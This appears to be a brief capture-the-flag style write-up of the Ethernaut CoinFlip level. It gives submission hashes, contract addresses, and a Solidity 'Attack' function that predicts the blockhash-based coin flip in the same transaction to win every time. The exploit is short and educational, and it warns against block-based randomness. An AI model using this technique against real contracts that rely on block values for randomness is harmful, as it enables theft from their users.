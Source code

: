 Submit level txnHash: 0x78b830ee75881549dc83c91f5a643d3ed1533ef2e83e51d460f667eaa091e2cc
Instance address: 0x1dba3eDAcc5775BF5a0b13B9aC23c6f72431E8BA
Level address: 0x716747Fbc1FcE4c36F2B369F87aDB5D4580e807f


to get 10 wins in a row
dont use block.number for randomness
i create smart contract named `Attack` to and I put this function in it:
```javascript
function guessFlip() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;        
        target.flip(side);
    }
```
this function calculate `blockValue` and then `side` is calculated. because the `flip()` function is called inside the `guessFlip()` function , it will be one transaction and block number is the same.
